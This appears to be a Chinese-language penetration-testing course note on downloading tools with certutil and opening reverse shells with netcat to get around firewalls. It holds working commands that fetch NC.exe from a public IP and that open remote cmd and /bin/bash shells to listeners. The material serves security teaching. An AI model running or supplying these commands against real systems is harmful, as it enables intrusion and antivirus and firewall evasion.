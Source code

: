 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816098-cdd2889a-024c-4748-b322-a509dc147f94.png)

```plain
cmd执行：
certutil.exe -urlcache -split -f http://47.100.167.248:8081/NC.exe exploit.exe
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816168-8294c8a2-29cb-4145-9377-3e05bdffe2d5.png)

```plain
不过被火绒查杀了。
cmd执行和powershell执行相同道理，都可以进行文件下载执行
```

- 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

```plain
• 执行命令的时候，会有数据的回显，告诉自己这个命令是不是执行成功，有没有文件，但是在大部分的测试环境是没有回显的。
useradd 用户名 passwd 用户名
测试Linux系统添加用户或修改密码命令交互回显问题
有些工具是不支持回显或者交互式，则这个时候需要反弹shell进行实现交互式和回显
交互式：比如执行passwd xioadi
```

交互式：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816227-e523273e-795b-4282-8a5e-fdfbfd35c304.png)

回显式：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816361-8eeaca8f-9dde-480b-a4f3-b24a86d5fab9.png)

- 结合案例1：防火墙绕过-正向连接&反向连接&内网服务器

```plain
1、内网：
内网 -> xiaodi8 //内网给shell（nc -e cmd 192.168.192.132 5577），xiaodi8监听(nc -lvvp 5577)
xiaodi8 !-> 内网
2、防火墙：
xiaodi8 <-> aliyun aliyun(nact www.xiaodi8.com 5566 -e /bin/bash) xiaodi8(nc -lvvp 5566)
xiaodi8防火墙 -> aliyun xiaodi8可以连接aliyun，aliyun不可以连接xiaodi8
aliyun !-> xiaodi8防火墙
防火墙入站严格，出站宽松

内网-->167.248
192.168.199.135连接192.168.199.130
199.135用nc执行nc-e-cmd -192.168.199.130 5577
199.130执行nc -lvvp 5577      服务器接受不了反弹shell  解决：宝塔端口问题
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816506-856c30ab-15aa-476a-ae30-9c818048d38f.png)

```plain
167-->内网完成不了 这个解决只能在路由器完成，进行端口映射。
防火墙：
开了防火墙的一方，能主动出去，但不能被动连接
没开防火墙：135监听 136发送 可以执行。双向都是可以的
135开启防火墙：
135	发送	 136
136	不能发送	 135
完成防火墙测试。
```
